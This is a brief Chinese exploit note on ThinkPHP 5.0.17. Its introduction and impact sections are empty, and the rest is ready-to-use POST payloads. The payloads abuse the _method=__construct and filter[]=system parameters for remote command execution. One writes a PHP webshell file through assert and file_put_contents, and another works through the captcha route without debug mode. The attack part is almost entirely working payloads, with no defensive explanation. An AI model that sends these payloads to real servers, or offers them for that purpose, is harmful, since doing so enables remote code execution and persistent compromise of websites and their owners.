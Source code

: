 Thinkphp 5.0.17
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    POST 

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET
